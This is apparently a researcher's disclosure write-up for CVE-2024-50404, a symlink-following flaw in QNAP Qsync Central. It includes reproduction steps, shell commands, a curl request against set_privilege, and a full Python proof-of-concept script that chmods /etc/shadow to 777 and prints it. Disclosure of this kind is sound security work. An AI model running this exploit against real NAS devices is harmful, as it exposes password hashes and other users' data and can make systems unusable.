





# CVE-2024-50404
- https://www.qnap.com/en/security-advisory/qsa-24-48
- https://www.cve.org/CVERecord?id=2024-50404
- CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:A/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N (6.8)

"A link following vulnerability has been reported to affect Qsync Central. If exploited, the vulnerability could allow remote attackers who have gained user access to traverse the file system to unintended locations."

__Date of Discovery:__ 22 April 2024  
__Date of Fix:__ 7 December 2024  
__Affected Version(s):__ Qsync Central 4.4.x  
__Fixed Version(s):__ Qsync Central 4.4.0.16_20240819 (2024/08/19) and later  
__Access Permissions:__ Regular user with file upload permission  

__Summary:__  
It is possible to upload a symlink through a ZIP file and read the file where the uploaded symlink points to.
Furthermore the file permissions of the symlink target can be modified.  
An attacker with privileges of a regular user can read data of other users or the password hashes stored in */etc/config/shadow*, which could lead to the compromise of the whole system.
Additionally the attacker could remove the execute permission on important system binaries to make the system unusable.


# Steps to Reproduce

## Read file via symlink

1. Create a symlink and put it into a ZIP file.

    ``` bash
    ln -s /etc/passwd link.txt
    zip --symlink pwn.zip link.txt
    ```

2. Login as a low-privileged user.
3. Upload the ZIP file into the *.Qsync* folder.

    

4. Extract the ZIP file by right-clicking and selecting *Extract to /pwn/*.

    

5. Open the new *pwn* folder, right-click on *link.txt* and select *Open*.
6. Observe that */etc/passwd* is opened in a new tab.

    

## Modify file permissions via symlink

1. Create a symlink and put it into a zip file.

    ``` bash
    ln -s /etc/shadow link.txt
    zip --symlink pwn.zip link.txt
    ```

2. Login as a low-privileged user.
3. Upload the ZIP file into the *.Qsync* folder.
4. Extract the ZIP file by right-clicking and selecting *Extract to /pwn/*.
5. Change the permission of the file where the symlink points to by abusing the *set_privilege* function.

    Curl Request:

    ``` bash
    curl --path-as-is -i -s -k -X $'GET' -H $'Host: 192.168.178.156' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Referer: https://192.168.178.156/cgi-bin/' -H $'X-Requested-With: XMLHttpRequest' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Te: trailers' $'https://192.168.178.156/cgi-bin/qsync/qsyncsrv.cgi?func=set_privilege&sid=9j27809t&source_path=/home/.Qsync/pwn/&source_file=link.txt&bOwn_w=1&bOwn_r=1&bOwn_x=1&bGroup_r=1&bGroup_w=1&bGroup_x=1&bOther_r=1&bOther_w=1&bOther_x=1'
    ```

    Burp Request:

    

    You must replace the *sid* parameter in the URL with a valid session id.

6. Open the new *pwn* folder, right-click on *link.txt* and select *Open*.
7. Observe that */etc/shadow* is opened in a new tab.

    

# Proof of Concept

The following Python script can be used to exploit the vulnerability.


``` python
#!/usr/bin/env python3
from requests import Session
import base64
import os
import re
import time
import urllib3

# adjust following variables
ENDPOINT = 'https://192.168.178.156'
USERNAME = 'victim'
PASSWORD = 'Victim123!'
FILE = '/etc/shadow'
#DEBUG_PROXY = 'http://localhost:8080'

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def main() -> None:
    session = Session()
    #session.proxies.update(http=DEBUG_PROXY, https=DEBUG_PROXY)
    session.verify = False

    print(f'carefull, privileges of {FILE} are changed to 777! clean up is not implemented')

    print('creating zip file')
    os.system('rm -f pwned.txt pwn.zip')
    os.system(f'ln -s {FILE} pwned.txt')
    os.system('zip --symlink pwn.zip pwned.txt')

    print('loggin in')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/authLogin.cgi',
        headers={'Content-type': 'application/x-www-form-urlencoded'},
        data={'user': USERNAME, 'serviceKey': '1', 'client_app': 'Web Desktop', 'dont_verify_2sv_again': '0', 'pwd': base64.b64encode(PASSWORD.encode('ascii')).decode('ascii'), 'client_id': '2b491dc6-6542-480d-a3a2-bbe3b433b764'},
    )
    assert response.status_code == 200
    match = re.search(r'<authSid><!\[CDATA\[(.*?)\]\]></authSid>', response.text)
    assert match
    sid = match.group(1)

    print('uploading zip file')
    with open('pwn.zip', 'rb') as file:
        upload_file(session, sid, 'pwn.zip', file.read())

    print('unpacking zip file')
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=extract&sid={sid}',
        headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'},
        data={'mode': 'extract_all', 'pwd': '', 'path_mode': 'full', 'extract_file': '/home/.Qsync/pwn.zip', 'code_page': 'UTF-8', 'overwrite': '1', 'dest_path': '/home/.Qsync'},
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    # wait a bit
    time.sleep(5)

    print('changing privileges on file')
    response = session.get(f'{ENDPOINT}/cgi-bin/qsync/qsyncsrv.cgi?func=set_privilege&sid={sid}&source_path=/home/.Qsync/&source_file=pwned.txt&bOwn_w=1&bOwn_r=1&bOwn_x=1&bGroup_r=1&bGroup_w=1&bGroup_x=1&bOther_r=1&bOther_w=1&bOther_x=1')
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1

    print('read file')
    response = session.get(f'{ENDPOINT}/cgi-bin/qsync/qsyncsrv.cgi/pwned.txt?sid={sid}&func=get_viewer&source_path=%2Fhome%2F.Qsync&source_file=pwned.txt')
    assert response.status_code == 200
    print(response.text)

    print('done')


def upload_file(session: Session, sid: str, filename: str, content: bytes) -> None:
    # get upload id
    response = session.post(f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi', headers={'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}, data={'upload_root_dir': '/home', 'func': 'start_chunked_upload', 'sid': sid})
    assert response.status_code == 200
    data = response.json()
    upload_id = data['upload_id']
    assert upload_id

    # upload file
    response = session.post(
        f'{ENDPOINT}/cgi-bin/filemanager/utilRequest.cgi?func=chunked_upload&sid={sid}&dest_path=%2Fhome%2F.Qsync&mode=1&dup=Copy&upload_root_dir=%2Fhome&upload_id={upload_id}&offset=0&filesize={len(content)}&upload_name={filename}&settime=1&mtime=1713395222&overwrite=1&multipart=0',
        files=(
            ('fileName', (None, filename.encode('ascii'))),
            ('file', ('blob', content, 'application/octet-stream')),
        ),
    )
    assert response.status_code == 200
    data = response.json()
    assert data['status'] == 1


if __name__ == '__main__':
    main()
```
